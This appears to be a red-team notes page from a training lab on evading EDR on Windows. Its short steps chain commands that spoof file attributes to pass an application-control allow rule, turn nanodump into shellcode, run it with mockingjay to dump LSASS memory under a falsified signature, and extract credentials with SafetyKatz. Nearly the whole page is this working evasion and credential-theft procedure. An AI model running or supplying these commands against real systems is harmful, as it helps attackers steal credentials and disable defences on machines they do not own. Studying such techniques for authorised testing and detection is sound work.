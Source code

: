 # Evading EDR

There are multiple ways to evade EDR or EDR-like protections.



## Check DeviceGuard (WDAC)

First, check whether DeviceGuard is enabled:

```powershell
> Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

Then, retrieve the DeviceGuard policy:

```powershell
> copy \\us-jumpX.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
> . C:\AD\Tools\CIPolicyParser.ps1
> ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml
```

We find in the XML file an allowed rule:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This means that all files that have their attribute `ProductName` to `Vmware Workstation` will not be blocked.

## Update attributes of a file

Use `rcedit` to update attributes of files:

```powershell
> rcedit.exe <path_to_file> --set-version-string "ProductName" "Vmware Workstation"
```

## Convert executable to shellcode

Use `donut`. Example to create a shellcode of `nanodump` with arguments `-sc -f --write nano.dmp`:

```powershell
> donut.exe -f 1 -p " -sc -f --write nano.dmp" -i nanodump.exe -o nanodump.bin
```

## Check detection status of file

Use `DefenderCheck`:

```powershell
> DefenderCheck.exe <executable.exe>
```

## Bypass EDR with mockingjay

`Mockingjay` is a tool that runs shellcode and bypasses EDR detection. It depends on some DLLs:

* msvcp140.dll
* vcruntime140.dll
* vcruntime140\_1.dll
* mscorlib.ni.dll

Update attributes of all files to match WDAC rules and package it in a zip. Run it with:

```powershell
> mockingjay.exe nanodump.bin
```

A dump of the memory of LSASS is created but with a wrong signature to prevent EDR detection. First restore the correct signature before exploiting the dump:

```powershell
> restore_signature.exe nano.dmp
```

Lastly, extract secrets from `nano.dmp` with `SafetyKatz`:

```powershell
> SafetyKatz.exe "sekurlsa::minidump <path_to_nano.dmp>" "sekurlsa::evasive-keys" "exit"
```
